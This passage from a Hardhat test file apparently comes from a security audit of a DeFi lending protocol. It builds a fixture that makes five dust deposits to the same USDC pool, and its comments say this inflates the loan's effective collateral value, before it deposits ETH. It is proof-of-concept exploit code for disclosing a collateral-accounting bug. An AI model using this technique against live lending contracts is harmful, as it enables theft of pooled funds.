 ```
      loanId,
      accountId,
      loanName,
    };
  }

  async function depositZeroTokenAmountToDIfferntPOOlFixture() {
    const {
      admin,
      hub,
      user,
      unusedUsers,
      loanManager,
      loanManagerAddress,
      oracleManager,
      libraries,
      loanTypeId,
      pools,
      loanId,
      accountId,
    } = await loadFixture(createUserLoanFixture);
    const { pool, poolId, tokenDecimals } = pools.USDC;

    // prepare deposit
    const depositAmountUSDC = BigInt(1);
    const depositInterestIndex = BigInt(1.2e18);
    const depositFAmountUSDC = toFAmount(depositAmountUSDC, depositInterestIndex);
    const usdcPrice = BigInt(1e18);
    await pool.setDepositPoolParams({
      fAmount: depositFAmountUSDC,
      depositInterestIndex,
      priceFeed: { price: usdcPrice, decimals: tokenDecimals },
    });

    // deposit into usdc pool
    // WE INFALTED THE `effectiveCollateralValue` BY DEPOSITING 0 TOKENS BY 5 TIMES colPools = [pools.USDC {balance = 0} , pools.USDC {balance = 0} , pools.USDC {balance = 0} , pools.USDC {balance = 0} , pools.USDC {balance = 0}]

    let i = 0;
    while (i < 5) {
      await loanManager.connect(hub).deposit(loanId, accountId, poolId, depositAmountUSDC);
      i++;
    }

    // prepare deposit
    let depositAmount = BigInt(1e18);

    let depositFAmount = (depositAmount * BigInt(1e18)) / BigInt(1e18);
    const ethPrice = BigInt(3000e18);
    await pools.ETH.pool.setDepositPoolParams({
      fAmount: depositFAmount,
      depositInterestIndex,
      priceFeed: { price: ethPrice, decimals: pools.ETH.tokenDecimals },
    });

    // deposit into eth pool

    // NOW = [pools.USDC {balance = 0} , pools.USDC {balance = 0} , pools.USDC {balance = 0} , pools.USDC {balance = 0} , pools.USDC {balance = 0} , pools.ETH {balance = 1e18}]

    const depositOneEther = await loanManager.connect(hub).deposit(loanId, accountId, pools.ETH.poolId, depositAmount);
```